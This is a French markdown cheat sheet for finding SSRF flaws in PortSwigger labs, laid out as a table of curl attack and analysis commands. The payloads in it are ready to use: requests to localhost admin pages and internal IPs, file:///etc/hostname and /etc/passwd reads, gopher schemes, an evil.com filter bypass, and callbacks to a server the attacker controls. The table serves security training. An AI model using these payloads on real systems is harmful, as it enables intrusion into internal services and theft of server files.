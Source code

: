 # SSRF

Voici un tableau synthétique pour l’analyse et la découverte des failles SSRF sur les labs PortSwigger, **avec des commandes curl différenciées pour l’attaque et l’analyse** selon chaque cas, des charges utiles neutres, et des explications claires en français :

| Type / Lab                                   | Payload d’attaque neutre (exemple)         | Commande d’attaque (curl)                                                                                         | Commande(s) d’analyse curl                                                                                       | Élément d’analyse (raison préalable)                        | Méthodologie détaillée de découverte                                                                                   | URL PortSwigger ou source utile                                      |
|-----------------------------------------------|--------------------------------------------|-------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------|
| SSRF basique (réponse visible)                | URL locale (http://127.0.0.1/admin)        | curl -X POST -d "stockApi=http://127.0.0.1/admin" https://LAB/product/stock                                      | curl -X POST -d "stockApi=https://www.example.com/" https://LAB/product/stock                                    | Différence de contenu dans la réponse                        | Injectez une URL interne dans le paramètre vulnérable. Comparez la réponse avec celle obtenue pour une URL externe. Si le contenu diffère ou révèle des infos internes, la faille est présente. | https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost |
| SSRF semi-aveugle (réponse partielle)         | URL interne affichant statut ou erreur      | curl -X POST -d "stockApi=http://192.168.0.1:8080/test" https://LAB/product/stock                                | curl -X POST -d "stockApi=https://www.example.com/" https://LAB/product/stock                                    | Codes d’erreur ou messages différents dans la réponse        | Injectez une URL interne ou non routable. Observez la différence de codes d’état HTTP ou de messages d’erreur dans la réponse par rapport à une URL externe. | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md |
| SSRF aveugle (blind, interaction externe)     | URL vers serveur contrôlé                   | curl -X POST -d "stockApi=http://votre-serveur.com/ssrf" https://LAB/product/stock                               | Surveillez les logs ou requêtes sur votre serveur externe (tcpdump, Burp Collaborator, logs web)                | Détection d’une requête sur votre serveur externe            | Injectez une URL pointant vers un serveur que vous contrôlez. Surveillez ce serveur pour détecter une connexion sortante du serveur vulnérable (preuve de l’exploitation SSRF). | https://portswigger.net/web-security/ssrf/blind |
| SSRF basée sur le temps (time-based)          | URL interne lente ou endpoint delay         | curl -X POST -d "stockApi=http://127.0.0.1:8080/delai" https://LAB/product/stock                                 | Mesurez le temps de réponse avec time ou curl -w "@curl-format.txt"                                              | Temps de réponse anormalement long                            | Injectez une URL interne ou contrôlée qui provoque un délai de réponse (ex : endpoint /delay). Mesurez le temps de réponse. Un délai anormal indique une SSRF basée sur le temps. | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md |
| SSRF avancée (file://, gopher://, etc.)       | file:///etc/passwd ou gopher://payload      | curl -X POST -d "stockApi=file:///etc/hostname" https://LAB/product/stock                                        | curl -X POST -d "stockApi=https://www.example.com/" https://LAB/product/stock                                    | Réponse contenant un contenu inattendu ou erreur spécifique   | Testez des schémas alternatifs (file, gopher, dict, ftp). Comparez la réponse à une requête classique. Un contenu inattendu ou une erreur spécifique révèle la faille. | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md |
| SSRF avec contournement de filtrage           | URL obfusquée ou encodée                    | curl -X POST -d "stockApi=http://127.0.0.1@evil.com/admin" https://LAB/product/stock                             | curl -X POST -d "stockApi=http://127.0.0.1/admin" https://LAB/product/stock                                     | Accès à une ressource interne malgré un filtrage              | Utilisez des variantes d’URL (obfuscation, encodage, double URL, etc.) pour contourner les filtres. Comparez la réponse avec celle d’une URL classique. | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md |

---

